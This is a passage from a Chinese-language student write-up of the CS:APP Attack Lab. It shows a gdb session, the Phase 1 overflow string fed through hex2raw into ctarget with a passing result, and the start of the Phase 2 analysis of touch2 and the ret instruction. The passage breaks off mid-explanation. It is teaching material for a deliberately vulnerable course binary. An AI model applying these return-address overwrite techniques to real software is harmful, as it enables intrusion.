 ~~~bash
(gdb) print (char*) 0x403188
$2 = 0x403188 "No exploit.  Getbuf returned 0x%x\n"
~~~

#### 结果

~~~bash
lzy@DESKTOP-PS05SI3:~/csapp/attacklab/attacklab/target1$ ./hex2raw <phase1.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
~~~

***

### Phase 2

#### 要求

- 将touch2地址注入，其余与Phase1相同

~~~C
void touch2(unsigned val)
{
	vlevel = 2; /* Part of validation protocol */
	if (val == cookie) {
		printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2);
	} else {
		printf("Misfire: You called touch2(0x%.8x)\n", val);
		fail(2);
		}
	exit(0);
}
~~~

#### 解析

**1. 注意到touch2函数需要比较val与cookie的值，所以必须将cookie也注入进去；**

**2. ret指令是弹栈操作，与push操作一起可以实现传递参数和修改返回地址；**

**3. 实际上进行了两次ret**

![](C:\Github_io\source\img\csapp\attach_phase2.png)

- 我们先深入理解ret指令：

  >  在CPU中有一个“PC”即程序寄存器，在 x86-64 中用%rip表示，它时刻指向将要执行的下一条指令在内存中的地址。而我们的ret指令就相当于：
  >
  > ~~~assembly
  > pop %rip
  > ~~~
